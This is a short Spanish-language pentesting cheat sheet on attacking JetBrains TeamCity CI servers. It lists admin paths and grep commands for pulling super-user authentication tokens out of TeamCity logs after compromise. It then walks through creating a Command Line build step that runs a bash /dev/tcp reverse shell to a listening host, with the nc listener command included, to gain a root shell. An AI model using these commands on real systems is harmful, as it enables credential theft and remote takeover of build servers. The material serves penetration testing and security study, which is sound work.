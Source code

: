 ## ¿Qué es y cómo funciona?

TeamCity es un servidor de gestión de compilación e integración continua de JetBrains. Se lanzó por primera vez el 2 de octubre de 2006 y es un software comercial con licencia patentada: hay disponibles una licencia freemium para hasta 100 configuraciones de compilación y tres licencias gratuitas de Build Agent.

## Rutas importantes

```
/admin
/admin/admin.html
```

## Encontrar tokens post-explotación

Este cms funciona con usuario y contraseña pero también con tokens, hay muchas veces los cuales podemos encontrarlos en los logs.

Si es el caso que tenemos acceso a los archivos hay varias maneras de encontrarlos


```
grep -rni 'authentication token' TeamCity/logs
grep -rni 'Super user authentication token' TeamCity/logs
grep -rni 'token' TeamCity/logs
O dentro del propio /logs hacer cat * | grep token
```

## Reverse shell

Si obtenemos un login como super user podemos hacer el siguiente proceso para tener una shell como root:

1. Crear un nuevo proyecto en el panel

2. Le damos a **Manual**

3. Una vez creado entramos dentro y le damos a **Build Configuration**

4. Cuando hayamos creado el build configuration salir del mismo e ir a la raiz del proyecto y entonces después darle a **Build Steps a la izquierda del panel**.

5. Add build steps

    1. Runner type --> Command Line

    2. Custom script añadimos una reverse shell --> Ejemplo `bash -c "bash -i >& /dev/tcp/10.18.9.85/4443 0>&1`


6. Nos ponemos en escucha por el puerto 4443 --> `nc -lvnp 4443`

7. Y le damos arriba a la derecha a **Run.**